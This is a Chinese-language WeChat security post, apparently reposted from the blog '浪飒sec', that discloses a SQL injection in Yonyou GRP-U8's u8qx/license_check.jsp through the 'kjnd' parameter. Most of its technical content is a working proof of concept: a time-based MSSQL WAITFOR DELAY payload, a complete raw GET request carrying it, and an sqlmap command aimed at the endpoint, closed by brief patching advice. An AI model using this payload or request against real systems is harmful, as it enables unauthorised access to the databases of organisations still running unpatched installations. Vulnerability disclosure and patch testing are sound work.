 #  用友 GRP U8 u8qx/license_check.jsp 存在SQL注入

[ 哈拉少安全小队 ](javascript:void\(0\);)

**哈拉少安全小队** ![]()

微信号 gh_b273ce95df95

功能介绍
专注安全技术分享，涵盖web渗透，代码审计，内网/域渗透，poc/exp脚本开发，经常更新一些最新的漏洞复现，漏洞分析文章，内网渗透思路技巧、脱敏的实战文章、waf绕过技巧以及好文推荐等，未来着重点会在java安全相关分享。

____

___发表于_

收录于合集

以下文章来源于浪飒sec ，作者浪飒

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM45TibBevTywWA8traEUOtoPqWMuPlsD5lnziaibMXeAWFnQ/0)
**浪飒sec** .

浪飒，共建网络安全

**废话**

用友大哥上回这是专门给我打了个补丁，我发完三个小时就发布公告和补丁了，感觉自己被重视了。

![]()

![]()

 **正题**  

这个漏洞我看别人刚发的，我在官方补丁里没找到，发的人也没把poc放出来，参数名没打码，叫 kjnd，放到什么付费星球了，我就根据打码信息找一下。  

上回发的[ **【附POC】用友GRP-U8 bx_historyDataCheck.jsp
SQL注入漏洞**](http://mp.weixin.qq.com/s?__biz=MzI1ODM1MjUxMQ==&mid=2247493745&idx=1&sn=ed37ea21fa98dd97f5e2ebc096eec452&chksm=ea0bdc61dd7c55779d1c454756909716b2181d56a240878249696432637b17413984e6896cff&scene=21#wechat_redirect)
这篇也是u8qx路径下jsp的有SQL注入，payload如下：  

  * 

    
    
    ';WAITFOR DELAY '0:0:5'-- q

这次我猜这次payload还是这个，您猜怎么着，那叫一个地道，那叫一个美，妈妈的味道！

![]()

poc数据包献上:  

  *   *   *   * 

    
    
    GET /u8qx/license_check.jsp?kjnd=1%27;WAITFOR%20DELAY%20%270:0:5%27-- HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36Connection: close

sqlmap命令如下：

  * 

    
    
    sqlmap -u http://127.0.0.1/u8qx/license_check.jsp?kjnd=1 -dbms=mssql

![]()

 **建议**

开发：建议把u8qx下的所有jsp进行测试，这玩意漏洞真多。

客户：找资产的时候有的系统已经修了，建议没修的联系销售让用友售后打补丁。

白帽子：建议把漏洞交给我，不要给别人![](https://res.wx.qq.com/t/wx_fed/we-
emoji/res/v1.3.10/assets/newemoji/Yellowdog.png)。  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

